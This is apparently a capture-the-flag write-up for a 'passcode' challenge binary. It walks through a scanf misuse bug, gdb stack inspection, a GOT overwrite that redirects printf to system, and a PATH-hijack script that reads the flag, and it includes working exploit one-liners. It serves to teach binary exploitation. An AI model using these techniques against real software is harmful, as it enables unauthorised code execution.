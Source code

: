 # Passcode

In the `welcome` function there's a `scanf` for a name, which is padded to 100 bytes:

```c
void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}
```

The program then asks for two passwords at `login`:

```c
int passcode1;
int passcode2;

printf("enter passcode1 : ");
scanf("%d", passcode1);
fflush(stdin);

// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
printf("enter passcode2 : ");
scanf("%d", passcode2);
```

There's a mistake there: scanf expects the address to which it should write the input, not the value. Thus it's going to write to whatever address is in the values of `passcode1` and `passcode2`.

They are then checked. If `passcode1 == 338150` and `passcode2 == 13371337`, we gain the shell.

This seems a bit too much in the beginning.

Let's check where in the stack are `name`, `passcode1` and `passcode2` being written. Perhaps we can fill in the passwords' initial values writing to the `name` buffer.

```bash
$ gdb passcode
>>> disas welcome
[...]
0x0804862f <+38>:	lea    edx,[ebp-0x70]
0x08048632 <+41>:	mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:	mov    DWORD PTR [esp],eax
0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
[...]
>>> disas login
[...]
0x0804857c login+24 mov    edx,DWORD PTR [ebp-0x10]
0x0804857f login+27 mov    DWORD PTR [esp+0x4],edx
0x08048583 login+31 mov    DWORD PTR [esp],eax
0x08048586 login+34 call   0x80484a0 <__isoc99_scanf@plt>
[...]
0x080485aa login+70 mov    edx,DWORD PTR [ebp-0xc]
0x080485ad login+73 mov    DWORD PTR [esp+0x4],edx
0x080485b1 login+77 mov    DWORD PTR [esp],eax
0x080485b4 login+80 call   0x80484a0 <__isoc99_scanf@plt>
>>> b *0x08048639
>>> b *0x08048586
>>> b *0x080485b4
>>> r
Breakpoint 1, 0x08048639 in welcome ()
>>> p $ebp-0x70
$1 = (void *) 0xffffcc58 # name
>>> c
enter your name : AAAA
Welcome AAAA!
Breakpoint 2, 0x08048586 in login ()
>>> p $ebp-0x10
$2 = (void *) 0xffffccb8 # passcode1
>>> c
enter passcode1 : A
Breakpoint 3, 0x080485b4 in login ()
>>> p $ebp-0xc
$3 = (void *) 0xffffccbc # passcode2
```

Once we hit the first breakpoint, just print the address of $ebp-0x70. The same for `passcode1` and `passcode2`, which their respective offsets from $ebp.

If we subtract `name` from `passcode1` (0xffffccb8 - 0xffffcc58), we get 0x60 (96), thus the last 4 bytes of `name` are written to the initial value of passcode1.

This means we have an *arbitrary write*, because the scanf later on writes to the address in `passcode1`, which we can control. But what now? We need to write *two* passwords, not one.

If we write the address of `passcode2` into `passcode1`, we only control `passcode2`. What about `passcode1`?

But if we have an aribtrary write, we can also write to the `Global Offset Table`, redirecting the execution of any libc function in the program. Perhaps we can overwrite the `printf` entry, making it point to `system` instead. Where is it located?

```bash
$ objdump -s passcode
[...]
Contents of section .got.plt:
 8049ff4 289f0408 00000000 00000000 26840408  (...........&...
 804a004 36840408 46840408 56840408 66840408  6...F...V...f...
 804a014 76840408 86840408 96840408 a6840408  v...............
$ gdb passcode
>>> x 0x804a000
0x804a000 <printf@got.plt>: 0x08048426
>>> x 0x804a010
0x804a010 <system@got.plt>: 0x08048466
```

This means we have to write `0x08048466` into `0x804a000`.

The `passcode1` scanf expects a decimal number, so we provide `134513766` (0x08048466).

```bash
$ (python -c "print('a'*96+'\x00\xa0\x04\x08')"; sleep 1; printf "134513766") | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
sh: enter: command not found
enter passcode1 : checking...
Login Failed!
```

This is exactly what we wanted: `prinf` became `system`, although it returned an error because there's no `enter` comand, from the string `enter passcode2 : `.

Now we can write the enter command ourselves, reading the flag:

```bash
$ mkdir /tmp/pc
$ echo "/bin/cat flag" > /tmp/pc/enter
$ chmod +x /tmp/pc/enter
$ export PATH=/tmp/pc:$PATH
$ (python -c "print('a'*96+'\x00\xa0\x04\x08')"; sleep 1; printf "134513766") | ./passcode
```
